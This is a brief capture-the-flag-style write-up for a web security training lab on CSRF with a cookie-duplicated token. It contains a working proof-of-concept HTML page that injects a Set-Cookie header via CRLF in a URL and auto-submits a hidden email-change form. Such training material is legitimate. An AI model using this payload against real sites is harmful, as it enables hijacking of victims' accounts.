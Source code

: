 # Lab: CSRF where token is duplicated in cookie

 This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

## CSRF 
* 題目中 cookie 的 csrf 跟 token 是一樣的，可以推斷只要兩者一樣就可以改 email
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://ac881f1d1f359369c0fa0f73003e00f2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="exploit&#64;entroy&#46;tk" />
      <input type="hidden" name="csrf" value="emZQ78eji8iGETEAN1Kjf3rfdRPODyu0" />
    </form>
    <script>
    var image = new Image();
    image.src = "https://ac881f1d1f359369c0fa0f73003e00f2.web-security-academy.net/?search=a%0d%0aSet-Cookie:+csrf=emZQ78eji8iGETEAN1Kjf3rfdRPODyu0";
    image.onerror = document.forms[0].submit();
    </script>
  </body>
</html>
```